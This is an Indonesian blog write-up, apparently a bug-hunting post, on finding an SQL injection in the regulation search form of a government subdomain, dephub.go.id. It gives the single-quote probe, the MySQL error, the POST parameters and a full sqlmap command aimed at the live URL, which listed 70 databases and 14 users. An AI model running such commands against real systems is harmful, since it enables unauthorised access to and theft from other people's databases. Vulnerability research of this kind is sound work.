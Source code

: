 ```yaml
---
title: SQL Injection at Subdomain dephub.go.id
date: 2019-10-21
---
```


Halo :D
Kembali lagi bersama saya :D
Kali ini saya ingin menjelaskan bagaimana saya bisa menemukan BUG SQL Injection pada Subdomain dephub.go.id ?
Let’s go!

![ ](https://miro.medium.com/max/24000/1*J6bG2_ibqeA_lodHkh452Q.png)

Ketika saya mencoba untuk mencari point inject nya, saya berpikir untuk mencari di kolom pencarian peraturan. Maka saya memasukkan input single quote (‘) pada kolom pencarian peraturan. Dan respons nya setelah saya input adalah

![ ](https://miro.medium.com/max/2400/1*hr9EiGPmSCHbaXuqYVpOLg.png)

```
Respons
“ You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ‘%’ OR title like ‘%’%’ ) AND `state` IS NOT NULL ORDER BY `created` desc’ at line 3 “
```

Sesudah Saya mendapatkan pesan error setelah memasukkan single quote (‘), lanjut Saya mencari post datanya menggunakan Live Http Header di Mozilla Firefox atau ke inspect element lalu ke bagian network. Berikut Post Data yang sudah Saya dapatkan

![ ](https://miro.medium.com/max/463/1*w4kGZXasP_gvD1-UezER4A.png)

Post Data: s=’&jenis_peraturan=0&nomor=&tahun=0

___

Selanjutnya saya Melakukan Scan di SQL Map Dengan Command

```
sqlmap.py -u “http://jdih.dephub.go.id/pencarian” — data=”s=’&jenis_peraturan=0&nomor=&tahun=0” — dbs
```

Hasil dari scannya adalah

![ ](https://miro.medium.com/max/2400/1*XD9FX5AbncHuhF1iDMM1rQ.png)

![ ](https://miro.medium.com/max/2400/1*hIdIwIYqVIJz2I0IGkcvzw.png)

available databases [70]
database management system users [14]

![ ](https://miro.medium.com/max/24000/1*i5PboXm1R4eSyhIew8VKwg.png)

Oke itu saja write up sederhana dari saya, Terima kasih sudah membaca write up saya ini. Jangan lupa share yaa, agar saya semangat untuk memberikan write up lagi :D

Contact me at [rafteday.net/about](https://rafterday.net/about)
